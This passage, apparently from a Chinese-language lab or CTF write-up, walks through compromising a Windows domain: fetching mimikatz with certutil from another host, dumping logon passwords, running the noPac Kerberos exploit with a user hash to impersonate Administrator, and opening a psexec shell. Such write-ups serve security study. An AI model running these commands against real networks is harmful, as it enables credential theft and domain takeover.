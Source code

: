 传个 mimikatz 上去：

```sh
certutil -urlcache -split -f http://172.22.11.76:8081/mimikatz.exe mimikatz.exe
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" exit > pass.txt
```

![](https://cdn.silente.top/img/202311142055345.png)

看 tag 还剩一个 noPac 没用 hh，这个漏洞最本质的地方在于 Microsoft Windows Kerberos KDC 无法正确检查 Kerberos 票证请求随附的特权属性证书（PAC）中的有效签名，这里面的签名就是上面提到的服务检验和以及KDC校验和。导致用户可以自己构造一张 PAC。

- [CVE-2021-42287&CVE-2021-42278 域内提权](https://xz.aliyun.com/t/10694)
- [PAC](https://daiker.gitbook.io/windows-protocol/kerberos/3)

```sh
python noPac.py xiaorang.lab/zhanghui -hashes ':1232126b24cdf8c9bd2f788a9d7c7ed1' -dc-ip 172.22.11.6 --impersonate Administrator -create-child -use-ldap -shell
```

发现好像 noPac 的依赖版本 impacket 有点问题会报错，但是前面已经能拿到 Administrator 的 ccache 了，所以可以自己使用 ccache 登录：


```sh
export KRB5CCNAME=./Administrator_xiaorang-dc.xiaorang.lab.ccache;proxychains python psexec.py xiaorang.lab/administrator@xiaorang-dc.xiaorang.lab -k -no-pass -dc-ip 172.22.11.6 -target-ip 172.22.11.6 -codec gbk
```

但这里有一点不太懂，就是为啥 MAQ=0 但这个 zhanghui 仍然能够创建机器账户。

一样上马：

![](https://cdn.silente.top/img/202311142123632.png)

最后的渗透拓扑图：

![](https://cdn.silente.top/img/202311142106517.png)

